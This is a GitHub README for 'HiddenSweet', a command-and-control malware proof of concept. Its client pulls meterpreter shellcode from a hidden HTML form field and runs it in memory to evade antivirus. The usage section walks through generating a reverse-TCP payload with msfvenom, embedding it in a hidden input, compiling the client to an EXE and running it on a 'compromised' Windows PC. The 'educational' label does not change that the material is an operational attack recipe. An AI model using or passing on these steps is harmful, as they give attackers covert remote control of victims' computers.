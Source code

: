 # HiddenSweet


[+] Simple Command and Control malware for PoC

This simple client connects to a HTML page with meterpreter reverse payload, and executes this on memory evading some antivirus intalled in the compromised PC. This tool is just for educational purposes.

[+] Contributions 

If you want to contribute to this project please feel free to do so, you can fork this project and make copies of it just please refer this original site in all your work.


[+] Requirements 

In order to use this tool you will need to have:

	[*] python 3
	[*] BeautifulSoup
	[*] Pyinstaller


[+] Setup

	[*] Install all dependencies
	[*] git clone https://github.com/depasonico/HiddenSweet.git HiddenSweet
	[*] cd HiddenSweet
	
[+] Usage

	[*] Edit HiddenSweetCli.py in URL
	[*] Generate your meterpreter shellcode, like: msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f python
	[*] Create a HTML page with a hidden field like: <input type="hidden" name="fooId" value="SHELLCODE" />
	[*] Create a EXE file using Pyinstaller http://www.pyinstaller.org/
	[*] Execute the exe file in your compromised windows system

[+] BUGS ლ(ಠ益ಠლ)

	[*] None
	
[+] Contact

	[*] Drop me an e-mail to depasonico@gmail.com
